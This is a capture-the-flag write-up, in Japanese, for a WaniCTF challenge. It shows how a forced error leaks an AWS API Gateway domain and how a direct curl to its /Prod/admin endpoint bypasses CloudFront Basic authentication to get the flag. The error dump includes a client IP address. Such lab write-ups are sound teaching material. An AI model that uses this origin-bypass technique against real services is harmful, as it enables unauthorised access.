

# 5.CloudFront Basic Auth

```txt
API Gateway, Lambda, S3, CloudFront, CloudFormationを使ってアプリを作ってみました。
重要なエンドポイントにはBasic認証をつけてみました。
https://cf-basic.web.wanictf.org/

ヒント: 上のURLにアクセスするとexceptionと同じ見た目のWebアプリが表示されますが、添付されているzipファイルにはexceptionの添付ファイルから新しいファイルが追加されています。添付ファイルを参考にもう一つのFLAGを発見してください！

Writer : suuhito
```

## Solution

問題にアクセスすると、`exception`問題と見た目が同じページが表示されました。



試しに `admin` のページにアクセスしようとすると、Basic認証があってアクセスできませんでした。

試しに  `exception` と同じようにエラー実行させて、エラーから何か情報を得れるか見てみます。

```json
{
  "error_message": ["TypeError: can only concatenate str (not \"int\") to str\n"],
  "event": {
    "resource": "/hello",
    "path": "/hello",
    "httpMethod": "POST",
    "headers": {
      "Accept-Encoding": "gzip, deflate",
      "content-type": "application/json",
      "dnt": "1",
      "Host": "boakqtdih8.execute-api.us-east-1.amazonaws.com",
      "origin": "https://cf-basic.web.wanictf.org",
      "User-Agent": "Amazon CloudFront",
      "Via": "2.0 37b615a846dba1c97d39060948e141ec.cloudfront.net (CloudFront)",
      "X-Amz-Cf-Id": "m4mVEmeERtg2KwfOxN11JZTCQbNxjfkvnmv7fO0-rwqSpTFEpGdERw==",
      "X-Amzn-Trace-Id": "Root=1-608ef459-76361df461701b5b600ca153",
      "X-Forwarded-For": "106.168.165.67, 130.176.3.137",
      "X-Forwarded-Port": "443",
      "X-Forwarded-Proto": "https"
    },
    "multiValueHeaders": {
      "Accept-Encoding": ["gzip, deflate"],
      "content-type": ["application/json"],
      "dnt": ["1"],
      "Host": ["boakqtdih8.execute-api.us-east-1.amazonaws.com"],
      "origin": ["https://cf-basic.web.wanictf.org"],
      "User-Agent": ["Amazon CloudFront"],
      "Via": ["2.0 37b615a846dba1c97d39060948e141ec.cloudfront.net (CloudFront)"],
      "X-Amz-Cf-Id": ["m4mVEmeERtg2KwfOxN11JZTCQbNxjfkvnmv7fO0-rwqSpTFEpGdERw=="],
      "X-Amzn-Trace-Id": ["Root=1-608ef459-76361df461701b5b600ca153"],
      "X-Forwarded-For": ["106.168.165.67, 130.176.3.137"],
      "X-Forwarded-Port": ["443"],
      "X-Forwarded-Proto": ["https"]
    },
    "queryStringParameters": null,
    "multiValueQueryStringParameters": null,
    "pathParameters": null,
    "stageVariables": null,
    "requestContext": {
      "resourcePath": "/hello",
      "httpMethod": "POST",
      "extendedRequestId": "etseDFspIAMFXqg=",
      "requestTime": "02/May/2021:18:50:01 +0000",
      "path": "/Prod/hello",
      "protocol": "HTTP/1.1",
      "stage": "Prod",
      "domainPrefix": "boakqtdih8",
      "requestTimeEpoch": 1619981401826,
      "requestId": "d8812b64-2fa9-4705-aef0-6e9a40b9e0a1",
      "identity": {
        "cognitoIdentityPoolId": null,
        "accountId": null,
        "cognitoIdentityId": null,
        "caller": null,
        "sourceIp": "106.168.165.67",
        "principalOrgId": null,
        "accessKey": null,
        "cognitoAuthenticationType": null,
        "cognitoAuthenticationProvider": null,
        "userArn": null,
        "userAgent": "Amazon CloudFront",
        "user": null
      },
      "domainName": "boakqtdih8.execute-api.us-east-1.amazonaws.com",
      "apiId": "boakqtdih8"
    },
    "body": "{\"name\":3}",
    "isBase64Encoded": false
  },
  "flag": "FLAG{b4d_excep7ion_handl1ng}"
}
```

良く見てみると、`domainName` として `API Gateway`のドメインが出力されていることがわかります。

また、配布ファイルの yaml ファイルに `https://${APIID}.execute-api.${AWS::Region}.amazonaws.com/Prod/admin"にGETするとAdminFunctionが動く` というヒントも記載されていました。

なので、直接的に API Gateway の admin ページにアクセスしてみると、flag を得ることができました。

```shell
$ curl https://boakqtdih8.execute-api.us-east-1.amazonaws.com/Prod/admin
FLAG{ap1_g4teway_acc3ss_con7rol}
```

## Flag

```txt
FLAG{ap1_g4teway_acc3ss_con7rol}
```
